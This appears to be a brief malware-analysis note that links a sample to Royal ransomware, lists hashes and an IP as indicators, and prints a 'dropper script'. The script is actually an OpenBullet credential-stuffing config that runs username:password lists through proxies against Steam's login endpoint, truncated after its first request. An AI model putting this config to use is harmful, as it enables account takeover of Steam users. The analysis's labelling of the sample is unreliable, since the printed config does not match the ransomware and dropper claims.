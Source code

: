 Again credits to https://socradar.io/dark-web-profile-royal-ransomware/. I believe that this is a strain of Royal-Ransomware. Due to the complexity of Reverse engineering these rust binaries this is all im gonna write. This took me on a unaccepted and fun journey and I discovered some weird stuff! 

IoCs:
File hashes:
ba0fe907dbf9010e39c27e8db165cda63bd3f85ac722ce393fa89c0b796d8ff0
720dfa4489f7af20ce284522d87f73ab7c4740256eee2164d7b3a08692de2aaf
e0eaebee569607ba4978967418617fc817c0f1ad674af7330f563c64479d029d
20.99.133.109
https://docs.rs/getrandom#nodejs-es-module-supportC:

The original dropper script.
```
[SETTINGS]
{
  "Name": "Steam",
  "SuggestedBots": 30,
  "MaxCPM": 0,
  "LastModified": "2024-04-30T20:54:53.3625014+03:30",
  "AdditionalInfo": "Telegram Channel : T.me/OpenBulletCha**el | Capture | CPM Rate : 50-1000",
  "RequiredPlugins": [],
  "Author": "@The*wn",
  "Version": "1.2.2",
  "SaveEmptyCaptures": false,
  "ContinueOnCustom": false,
  "SaveHitsToTextFile": false,
  "IgnoreResponseErrors": false,
  "MaxRedirects": 8,
  "NeedsProxies": true,
  "OnlySocks": false,
  "OnlySsl": false,
  "MaxProxyUses": 0,
  "BanProxyAfterGoodStatus": false,
  "BanLoopEvasionOverride": -1,
  "EncodeData": false,
  "AllowedWordlist1": "UserPass",
  "AllowedWordlist2": "",
  "DataRules": [],
  "CustomInputs": [],
  "ForceHeadless": false,
  "AlwaysOpen": false,
  "AlwaysQuit": false,
  "QuitOnBanRetry": false,
  "DisableNotifications": false,
  "CustomUserAgent": "",
  "RandomUA": false,
  "CustomCMDArgs": ""
}

[SCRIPT]
JUMP #AppleWebKit
#PARSESOURCE
#UA FUNCTION Constant "Mozilla/5.0 (iPhone; CPU iPhone OS 10_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/497.322 Mobile/15A302 Safari/604.1" -> VAR "S" 

#US FUNCTION Replace "@.*" "" UseRegex=TRUE "<USER>" -> VAR "US" 

#T FUNCTION CurrentUnixTime -> VAR "0" 

REQUEST POST "https://steamcommunity.com/login/getrsakey/" 
  CONTENT "donotcache=<0>&username=<US>" 
  CONTENTTYPE "application/x-www-form-urlencoded" 
  HEADER "Accept: */*" 
  HEADER "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" 
```